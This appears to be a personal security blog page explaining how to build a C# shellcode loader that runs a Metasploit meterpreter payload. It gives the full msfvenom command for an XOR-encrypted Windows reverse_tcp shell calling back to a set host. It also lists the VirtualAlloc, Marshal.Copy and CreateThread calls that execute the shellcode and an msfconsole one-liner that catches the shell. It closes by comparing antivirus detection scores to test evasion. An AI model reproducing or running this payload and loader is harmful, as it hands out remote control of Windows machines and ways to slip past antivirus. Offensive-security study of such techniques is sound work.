

<!--
Text can be **bold**, _italic_, ~~strikethrough~~ or `keyword`.


[Link to another page](another-page).

There should be whitespace between paragraphs.

There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.
-->

# [](#header-1) What is shellcode ?

In hacking, a shellcode is a small piece of code used as the payload in the exploitation of a software vulnerability. It is called "shellcode" because it typically starts a command shell from which the attacker can control the compromised machine, but any piece of code that performs a similar task can be called shellcode.

# [](#header-2) Methodology

* Generate encrypted-xored shellcode in csharp format with msfvenom. Don't forget to store the encrypt-key to decrypt the shellcode before inject it.

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp lport=4444 lhost=192.168.1.66 -f csharp --encrypt xor --encrypt-key 'k'
```
<br>


* VirtualAlloc: Allocate memory for the future process ran by shellcode.

```cs
[DllImport("kernel32.dll")] 
  private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr,
    uint size,
    uint flAllocationType,
    uint flProtect
);
```
<br>

* Marshal.Copy: Copy shellcode byte to destination memory block. It's used to for moving the shellcode bytes to te allocate memory that we did with VirtualAlloc.
  
```cs 
Marshal.Copy(byte[] source,
    int startIndex,
    IntPtr destination,
    int size_source
);
```
<br>

* CreateThread: Create a thread in our process to execute the shellcode.

```cs  
private static extern IntPtr CreateThread(uint lpThreadAttributes,
    uint dwStackSize,
    IntPtr lpStartAddress,
    IntPtr param,
    uint dwCreationFlags,
    ref uint lpThreadId
);
```
<br>

* Run handler in metasploit and listen for incoming connection`.

```console
msfconsole -q -x 'use multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set lhost 0.0.0.0;set lport 4444;run'
```

<br>

# Proof of concept

<video width="500" height="500" controls>
  <source src="../assets/shellcode_injection_poc.mp4" type="video/mp4">
</video>


# Result

Our malware is detected by many antivirus as trojan like Windows Defender. Unfortunaly, this technique is too old and easily detected for modern antivirus. But my curiosity wanted to test if encrypt-xored payload has any effect on score detection. I just recreate payload without any encryption and replace it in my code. I compiled the code into exe file and loaded it in [virustotal.com](https://virustotal.com) to compare score. The no-encryption improve considerably the score and multiply it by ~2. 

</br>   

### Score without any encryption


### Score with xored encryption


</br> 

# References

* [https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)


* [https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)

* [https://www.youtube.com/watch?v=aNEqC-U5tHM&ab_channel=crow](https://www.youtube.com/watch?v=aNEqC-U5tHM&ab_channel=crow)
